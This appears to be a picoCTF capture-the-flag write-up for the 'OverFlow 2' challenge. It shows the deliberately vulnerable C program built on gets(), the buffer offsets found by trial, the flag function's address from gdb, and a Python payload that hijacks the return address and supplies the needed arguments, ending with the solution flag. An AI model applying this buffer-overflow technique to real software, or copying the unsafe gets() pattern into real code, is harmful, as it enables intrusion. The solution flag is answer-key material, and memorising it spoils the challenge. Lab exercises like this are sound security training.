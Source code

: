 # OverFlow 2 - Points: 250
<b>Description : </b>Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_1_210f23786438d7f7e527f4901367a74b on the shell server. Source.<br>
<b>Hints : </b>GDB can print the stack after you send arguments
# Solved
Lets check the source
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We can see, program allowed us to send buffer <b>176</b> size, lets try to dump using
```python
print 'A' * 180
# Success

print 'A' * 184
# Segmentation Fault

print 'A' * 188
# Program received signal SIGILL, Illegal instruction.
```
So we stay at stack <b>188</b>! lets find out where is address of <b>flag</b>
```
(gdb) print flag
$1 = {<text variable, no debug info>} 0x80485e6 <flag>
```
its <b>0x80485e6</b>, okay we note that. Check again at source we currently see there is 2 arguments must we fill it
```python
stack_size = 188
flag_addrs = 0x080485e6
arguments1 = 0xDEADBEEF
arguments2 = 0xC0DED00D
```
Okay im done, now lets make them into 1
```python
# Since the process is 32 bit we using p32
stack_size = 188
flag_addrs = 0x080485e6
arguments1 = 0xDEADBEEF
arguments2 = 0xC0DED00D

stack = 'A' * stack_size
args = p32(arguments1) + p32(arguments2)
payload = stack + str(p32(flag_addrs)) + 'AAAA' + str(args)

print(payload)
```
I need <b>4 Byte</b> to set argument so i place <b>AAAA</b> there. Execute code and execute program! got the flag :D<br>
Flag : <b>picoCTF{arg5_and_r3turn5001d1db0}</b>